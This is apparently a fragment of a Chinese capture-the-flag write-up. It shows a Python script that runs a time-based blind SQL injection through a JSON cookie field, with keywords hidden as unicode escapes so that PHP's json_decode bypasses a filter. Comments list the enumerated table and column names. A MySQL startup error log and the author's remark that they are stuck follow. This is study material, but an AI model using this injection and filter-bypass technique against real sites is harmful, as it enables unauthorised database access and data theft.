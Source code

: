 ```python
        #admin BE933CBA048A9727A2D2E9E08F5ED046
        #poc = "'\u006fr\u0020su\u0062str((select\u0020binary\u0020table_name\u0020from\u0020inf\u006frmation_schema.tables\u0020where\u0020TABLE_SCHEMA\u003ddatabase()\u0020limit\u00200,1),{0},1)\u003d'{1}'\u0020and\u0020sl\u0065ep(6)\u0023".format(x,i)
        #F1444g
        #poc = "'\u006fr\u0020su\u0062str((select\u0020binary\u0020column_name\u0020from\u0020inf\u006frmation_schema.columns\u0020where\u0020TABLE_SCHEMA\u003ddatabase()\u0020limit\u00200,1),{0},1)\u003d'{1}'\u0020and\u0020sl\u0065ep(6)\u0023".format(x,i)
        #F1a9
        poc = "'\u006fr\u0020su\u0062str((select\u0020binary\u0020F1a9\u0020from\u0020F1444g\u0020limit\u00200,1),{0},1)\u003d'{1}'\u0020and\u0020sl\u0065ep(6)\u0023".format(x,i)
        headers = {"Cookie":'islogin=1; login_data={\"admin_user\":\"'+poc+'\"}'}
        r = requests.get(url,headers=headers)
        if time.time() - startTime > 5:
            flag += i
            print flag
            break
```
很明显就是用的`json_decode()`在反序列化的时候会将`unicode`解码的特性来绕过的

```
# sh start-mysqld.sh
2019-05-02T11:19:24.332107Z mysqld_safe Logging to syslog.
2019-05-02T11:19:24.337189Z mysqld_safe Logging to '/var/log/mysql/error.log'.
2019-05-02T11:19:24.370579Z mysqld_safe Starting mysqld daemon with databases from /var/lib/mysql
2019-05-02T11:19:26.178976Z mysqld_safe mysqld from pid file /var/run/mysqld/mysqld.pid ended
# service
Usage: service < option > | --status-all | [ service_name [ command | --full-restart ] ]
# service mysql status
 * MySQL is stopped.
# service mysql restart
 * Stopping MySQL database server mysqld                                                                                                          [ OK ] 
 * Starting MySQL database server mysqld                                                                                                                 No directory, logging in with HOME=/
 ```


这我也没办法了




                                                                                                        

